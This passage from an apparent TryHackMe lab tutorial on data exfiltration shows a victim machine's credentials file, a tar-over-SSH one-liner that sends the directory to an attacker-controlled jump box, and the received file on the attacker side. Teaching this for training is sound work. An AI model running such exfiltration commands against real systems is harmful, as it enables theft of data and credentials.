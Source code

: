 ![Encrypted SSH communication channel](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/aa723bb0e2c39dfc936b135c4912d1cf.png)

To transfer data over the SSH, we can use either the Secure Copy Protocol SCP or the SSH client. Let's assume that we don't have the SCP command available to transfer data over SSH. Thus, we will focus more on the SSH client in this task.

As we mentioned earlier, an attacker needs to control a server, which in this case has an SSH server enabled, to receive the exfiltrated data. Thus, we will be using the AttackBox as our SSH server in this scenario. You can also use the JumpBox since it has an SSH server enabled.

Let's assume that we have gained access to sensitive data that must be transmitted securely.  Let's connect to the victim1 or victim2 machine.

The data that needs to be transferred

```markup
thm@victim1:~$ cat task5/creds.txt
admin:password
Admin:123456
root:toor
```

Let's use the same technique we discussed in the "exfiltration using a TCP socket" task, where we will be using the tar command to archive the data and then transfer it.

Exfiltration data from the victim1 machine

```markup
thm@victim1:$ tar cf - task5/ | ssh thm@jump.thm.com "cd /tmp/; tar xpf -"
```

Let's break down the previous command and explain it:

1. We used the tar command the same as the previous task to create an archive file of the task5 directory.
2. Then we passed the archived file over the ssh. SSH clients provide a way to execute a single command without having a full session.
3. We passed the command that must be executed in double quotations, "cd /tmp/; tar xpf. In this case, we change the directory and unarchive the passed file.

If we check the attacker machine, we can see that we have successfully transmitted the file.

Checking the received data

```markup
thm@jump-box$ cd /tmp/task5/
thm@jump-box:/tmp/task5$ cat creds.txt
admin:password
Admin:123456
root:toor
```

## Exfiltrate using HTTP(S)

***

Before going further, ensure that you have the fundamental knowledge of network protocols before diving into this task and the upcoming tasks.
